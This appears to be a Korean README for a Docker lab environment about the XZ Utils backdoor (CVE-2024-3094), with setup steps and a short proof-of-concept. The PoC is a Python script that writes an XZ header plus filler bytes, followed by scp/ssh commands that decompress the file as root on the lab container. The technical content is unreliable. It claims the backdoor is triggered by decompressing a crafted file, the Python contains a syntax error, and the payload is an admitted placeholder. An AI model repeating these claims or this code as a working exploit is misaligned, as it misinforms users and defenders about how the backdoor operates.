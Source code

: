 # XZ Utils 백도어 (CVE-2024-3094)

XZ Utils는 높은 압축률을 가진 범용 데이터 압축 소프트웨어입니다. 2024년 3월, XZ Utils 5.6.0 및 5.6.1 버전에서 심각한 백도어가 발견되었습니다. 이 백도어는 압축 프로세스를 조작하여 원격 공격자가 임의의 코드를 실행할 수 있게 합니다.

이 백도어는 공급망 공격을 통해 XZ Utils 소스 코드에 악성 코드가 삽입되어 발생했습니다. 이 취약점은 손상된 버전의 XZ Utils를 사용하는 시스템에 영향을 미칩니다.

참고 자료:
- https://www.openwall.com/lists/oss-security/2024/03/29/4 (최초 공개)
- https://nvd.nist.gov/vuln/detail/CVE-2024-3094 (CVE 상세 정보)

## 환경 구성

취약한 환경은 다음 포트를 노출합니다

| 포트 | 서비스 | 설명 |
|------|---------|-------------|
| 2222 | SSH     | 원격 접속 가능 |

취약한 환경을 시작하려면:

```bash
docker compose up -d
```

## 익스플로잇

백도어는 특별히 제작된 XZ 파일을 처리할 때 트리거됩니다. 기본적인 PoC는 다음과 같습니다

1. 먼저 악성 XZ 파일 (poc.xz)을 생성합니다
```python
#!/usr/bin/env python3
import struct

# 백도어를 트리거하는 특별히 제작된 XZ 파일 생성
header = b'\xfd\x37\x7a\x58\x5a\x00\x00'  # XZ 파일 헤더
payload = b'A' * 1000  # 실제 페이로드로 대체 필요

with open('poc.xz', 'wb') as f
    f.write(header + payload)
```

2. 파일을 대상 시스템으로 전송합니다
```bash
scp -P 2222 poc.xz root@localhost:/tmp/
```

3. 파일 압축 해제를 통해 백도어를 트리거합니다
```bash
ssh -p 2222 root@localhost "xz -d /tmp/poc.xz"
```

압축 해제 과정에서 백도어가 트리거됩니다. XZ Utils 버전을 확인하고 침해 징후를 확인할 수 있습니다

```bash
ssh -p 2222 root@localhost "xz --version && ls -la /tmp"
```

참고: 이는 기본적인 PoC입니다. 실제 백도어는 더 복잡하며 특정 조건이 충족되어야 트리거됩니다.

## 참고

이 환경은 교육 목적으로만 사용해야 합니다. 실제 운영 환경에서는 사용하지 마세요. 